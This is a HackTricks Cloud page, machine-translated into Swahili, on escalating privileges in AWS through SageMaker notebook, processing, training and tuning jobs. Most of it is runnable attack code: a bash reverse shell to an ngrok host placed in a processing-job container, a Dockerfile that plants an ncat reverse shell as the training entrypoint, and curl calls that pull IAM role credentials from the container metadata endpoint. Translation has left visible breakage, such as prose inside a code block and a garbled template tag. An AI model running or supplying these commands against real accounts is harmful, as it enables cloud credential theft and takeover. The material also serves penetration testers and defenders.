 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Anza kuunda daftari na Jukumu la IAM ili kupata ufikivu uliowekwa:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
```html
<p>Jibu litakuwa na uga wa `NotebookInstanceArn`, ambao utaleta ARN ya kipengee cha notebook kilichoundwa. Tunaweza kutumia API ya `create-presigned-notebook-instance-url` kuzalisha URL ambayo tunaweza kutumia kufikia kipengee cha notebook mara tu itakapokuwa tayari:</p>
```
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Nenda kwenye URL na kubonyeza \`Fungua JupyterLab\` kulia juu, kisha shuka chini hadi kwenye kichupo cha "Mzinduzi" na chini ya sehemu ya "Nyingine", bonyeza kitufe cha "Terminal".

Sasa niwezekana kupata ufikiaji wa siri wa metadata ya Jukumu la IAM.

**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker iliyotajwa.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ikiwa kuna **madokezo ya Jupyter yanayoendesha tayari** na unaweza kuyapata kwa kutumia `sagemaker:ListNotebookInstances` (au kuyagundua kwa njia nyingine yoyote). Unaweza **kuunda URL kwa ajili yao, kuyafikia, na kuiba siri kama ilivyoelezwa katika mbinu iliyopita**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker iliyowekwa.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Mshambuliaji mwenye ruhusa hizo anaweza kufanya **sagemaker kutekeleza kazi ya usindikaji** na jukumu la sagemaker limeunganishwa nayo. Mshambuliaji anaweza kuonyesha ufafanuzi wa chombo ambacho kitakachofanyiwa kazi katika **kifaa cha akaunti ya AWS iliyosimamiwa na ECS**, na **kuiba siri za jukumu la IAM lililounganishwa**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker iliyotajwa.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza kuunda kazi ya mafunzo, **kukimbia chombo cha aina yoyote** nacho **jukumu limeambatanishwa** nalo. Hivyo basi, mshambuliaji ataweza kuiba anwani za jukumu.

{% hint style="warning" %}
Hali hii ni ngumu zaidi kuchexploiti kuliko ile ya awali kwa sababu unahitaji kuzalisha picha ya Docker itakayotuma rev shell au anwani za siri moja kwa moja kwa mshambuliaji (hauwezi kutoa amri ya kuanza katika usanidi wa kazi ya mafunzo).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% mwisho %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker iliyotajwa.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo (kwa uwezekano) ataweza kuunda **kazi ya mafunzo ya hyperparameter**, **kukimbia chombo cha aina yoyote** nacho kina **jukumu limeambatishwa** kwake.\
_Sijatumia kwa sababu ya ukosefu wa muda, lakini inaonekana kama mbinu za zamani, jisikie huru kutuma PR na maelezo ya kutumia._

## Marejeo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
